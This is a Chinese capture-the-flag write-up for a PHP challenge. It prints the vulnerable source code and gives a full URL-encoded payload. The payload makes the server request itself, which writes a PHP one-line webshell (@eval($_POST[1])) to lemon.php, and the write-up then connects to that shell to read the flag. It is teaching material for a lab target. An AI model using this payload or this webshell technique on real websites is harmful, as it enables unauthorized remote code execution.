




## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要的逻辑代码：

```php
<?php
if(isset($_GET) && !empty($_GET)){
    $url = $_GET['file'];
    $path = 'upload/'.$_GET['path'];
}else{
    show_source(__FILE__);
    exit();
}

if(strpos($path,'..') > -1){
    die('SYCwaf!');
}

if(strpos($url,'http://127.0.0.1/') === 0){
    file_put_contents($path, file_get_contents($url));
    echo "console.log($path update successed!)";
}else{
    echo "Hello.Geeker";
}
```

3.我们可以看到代码中，程序会访问url中的`$file`参数，然后写入到`$path`文件中。例如当访问：

`http://IP:PORT/?file=http://127.0.0.1/index.php&path=tmp.txt`




4.但是这道题目该如何绕过呢？由于`$path`是我们直接输入的，那么`$path`就完全是我们可控的，我们可以考虑在`$path`写为一句话木马。
那么最后的payload为：

`http://IP:PORT/?path=lemon.php&file=http%3A%2f%2f127.0.0.1%2f%3Fpath%3D%253C%253Fphp%2520@eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%26file%3Dhttp%3A%2f%2f127.0.0.1%2findex.php`



5.连接一句话木马：



6.查看flag：


